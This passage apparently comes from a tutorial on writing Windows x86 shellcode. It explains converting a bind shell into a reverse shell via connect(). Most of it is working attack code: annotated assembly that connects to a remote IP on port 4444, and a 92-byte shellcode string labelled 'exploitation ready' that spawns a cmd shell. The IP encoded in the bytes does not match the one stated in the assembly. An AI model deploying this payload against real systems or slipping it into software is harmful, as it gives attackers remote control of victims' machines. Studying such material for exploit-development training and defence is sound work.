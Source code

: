 For the reverse shell, we will reuse a lot from the bind shell code. In fact, we are just going to replace bind(), listen() and accept() with connect(). 

## System call: connect

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect</a>

Syntax:
```
connect(SOCKET s, const sockaddr *name, int namelen)
```

The connect system call connects to a socket. It takes three arguments and looks more or less like bind().

```assembly
push 0x8201A8C0      ; Remote IP address, 192.168.1.130   
mov eax, 0x5c110102  ; Port nr, 4444 (first 2 bytes) 
dec ah               ; eax: 0x5c110102 -> 0x5c110002 (Mitigating null byte)
push eax             ; Store portnr on stack
mov esi, esp         ; Store pointer to portnr
xor eax, eax         ; Clear eax
mov al, 0x10         ; Makes eax = 0x00000010
push eax             ; Arg3 (namelen) = 16 bytes
push esi             ; Arg2 (*name) = esi -> 0x5c110002 (5c11 = 4444, 0002 = INET_AF)
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71ab4a07  ; Address to connect()
call eax
```

The logic for the remote IP address is the following:
```
82 = 130
01 = 1
A8 = 168
C0 = 192
```

### Exploitation ready reverse shell (92 bytes)

Compiled without LoadLibraryA() and WSAStartup().

```
$ for i in $(objdump -d reverse.exe | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x50\x50\x50\x50\x6a\x01\x6a\x02\xb8\x6a\x8b\xab\x71\xff\xd0\x89\xc3\x68
\xc0\xa8\x38\x01\xb8\x02\x01\x11\x5c\xfe\xcc\x50\x89\xe6\x31\xc0\xb0\x10\x50\x56
\x53\xb8\x07\x4a\xab\x71\xff\xd0\xba\x63\xd3\x81\x7c\x53\x6a\xf6\xff\xd2\x53\x6a
\xf5\xff\xd2\x53\x6a\xf4\xff\xd2\xc7\x44\x24\xfb\x41\x63\x6d\x64\x8d\x44\x24\xfc
\x8d\x64\x24\xfc\x50\xb8\xc7\x93\xc2\x77\xff\xd0
```

Highly recommended read about shellcoding:
<a href="http://www.hick.org/code/skape/papers/win32-shellcode.pdf">http://www.hick.org/code/skape/papers/win32-shellcode.pdf</a>
